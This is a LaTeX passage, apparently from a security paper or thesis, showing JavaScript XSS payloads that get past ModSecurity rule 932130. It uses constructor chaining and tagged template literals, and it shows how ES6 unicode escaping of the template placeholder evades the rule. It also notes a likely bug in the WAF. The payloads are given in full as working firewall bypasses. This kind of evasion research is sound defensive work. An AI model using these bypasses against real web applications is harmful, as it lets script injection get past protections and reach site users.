 \begin{lstlisting}[style=ruleStyle, language=XML, caption=avoiding () blocked, label={lst:avoiding () blocked}]
<payload>[]['constructor']['constructor']`a${'var s = "secret";promp' + 't`something${s}`'}```</payload>

<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${s}"</MatchedData>
\end{lstlisting}

Evading rule \verb|932130| was possible by using a form of unicode escaping in JavaScript that was introduced with ES6 and differs from the unicode escaping in JSON. The character sequence \verb|${s}| was replaced with \verb|\u{0024}{s}|. This made the payload bypass the ModSecurity firewall. The bypassing payload:

\begin{lstlisting}[style=basicStyle, caption=avoiding () bypass payload using square bracket notation]
[]['constructor']['constructor']`a${'var s = "secret";promp' + 't`something\u{0024}{s}`'}```
\end{lstlisting}

Similarly, using the dot-syntax instead of bracket-access, the following payload bypasses the firewall:

\begin{lstlisting}[style=basicStyle, caption=avoiding () bypass payload using dot notation]
[].constructor.constructor`a${'var s = "secret";promp' + 't`something\u{0024}{s}`'}```
\end{lstlisting}

It is conspicuous that the payload could bypass the firewall with only the later \verb|$| of the two placeholders: \verb|${expression}| escaped.
This seems to be a bug in the WAF or the ruleset.
It is also what enables the above payload to be valid.
A substitution of the earlier \verb|$| with an escaped variant is not possible.
JavaScript does not recognize the placeholder in the Template Literal without the explicit character \verb|$|.
Substitution of the second placeholder is possible because it happens inside a string containing the Tagged Template Literal.


\subsubsection{Avoiding \{\}}
\label{sec:avoidingbypassB}
A payload thats not using any \verb|{}| but still allows for Tagged Template Literals or other usages of \verb|{}| can be created using string replace strategies. Considering the payload from the previous Section~\ref{sec:avoidingbypassA}, the similar payload in Listing~\ref{lst:stringreplaceblocked} was being blocked by the modsecurity firewall:

